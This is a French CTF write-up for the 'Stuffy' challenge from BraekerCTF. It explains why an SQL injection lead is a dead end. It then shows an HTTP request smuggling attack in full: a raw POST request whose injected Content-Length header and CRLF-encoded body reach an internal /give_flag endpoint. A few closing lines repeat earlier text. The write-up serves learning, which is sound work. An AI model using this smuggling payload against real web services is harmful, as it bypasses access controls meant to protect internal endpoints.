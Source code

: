 ```yaml
---
layout: post
title: "Stuffy BraekerCTF"
date: 2024-06-24
categories: CTF
background_image: assets/what_is_sql_injection_attack_4bdd2066d6.png
title_color: "#ffffff"
---
```



Commençons par lire le code qui nous est fourni. On peut voir directement une faille SQL.
![](/assets/posts/Stuffy/stuffy1.png)
Seulement, nous n'avons pas la main sur le username. Il est choisi à partir du fichier `usenames.txt` fourni qui est une liste de username aléatoires + 4 chars aléatoires.
![](/assets/posts/Stuffy/stuffy2.png)

La SQLi est donc pas la bonne piste.

Parmis toutes les routes on peut apercevoir l'endpoint  `/give_flag`
![](/assets/posts/Stuffy/stuffy3.png)
Cette fonction update la valeur du "stuff" avec la valeur de flag pour un user à partir du moment ou la requête vient du serveur lui-même.
On peut essayer de rajouter le Headers à la main mais ça ne marchera pas car c'est le proxy nginx qui modifie les headers.
Il faudrait donc trouver une fonction qui fait une requête et la rediriger vers `/give_flag`.
Ça tombe bien `/set_stuff` fait une requête vers `/update_profile_internal`.

![](/assets/posts/Stuffy/stuffy4.png)
Set_stuff récupère dans un premier temps notre username grâce aux cookies et vérifie que cet user existe bien.
Il récupère ensuite la variable de stuff de la requête et vérifie que la longueur est inférieure à 200.
Les variables special_type, special_val sont de la même façon récupérées puis nétoyées avec les fonction `security_filter`.
Les variables special_type et special_val deviennent des Headers et stuff est une partie du body

Nous avons donc la main sur trois variables stuff, special_val et special_type.
La piste la plus probable est une request smuggling. Essayons.
```
POST /set_stuff HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 228
Origin: http://localhost:3000
DNT: 1
Connection: close
Referer: http://localhost:3000/
Cookie: username=love1987OBCj
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: blue

special_type=Content-Length&special_val=80&stuff=aaaaaab%0d%0a%0d%0aPOST /give_flag HTTP/1.1%0d%0aHost: 127.0.0.1:3000%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aContent-Length: 21%0d%0a%0d%0ausername=love1987OBCj
```

Ici, special_type et special_val forment un header qui va renseigner la première requête (la fin de aaaaaab) = Content-length: 80.
Comment trouve-t-on ce nombre ?
 ![](/assets/posts/Stuffy/stuffy5.png)
Il suffit de trouver la taille de cette string.
![](/assets/posts/Stuffy/stuffy6.png)
Il suffit ensuite de créer la deuxième requête. Puis de rafraîchir la page et nous aurons le flag dans notre stuff.
![](/assets/posts/Stuffy/stuffy7.png)


Ici, special_type et special_val forment un header qui va renseigner la première requête (la fin de aaaaaab) = Content-length: 80. Comment trouve-t-on ce nombre ?

Il suffit de trouver la taille de cette string.

Il suffit ensuite de créer la deuxième requête. Puis de rafraîchir la page et nous aurons le flag dans notre stuff.
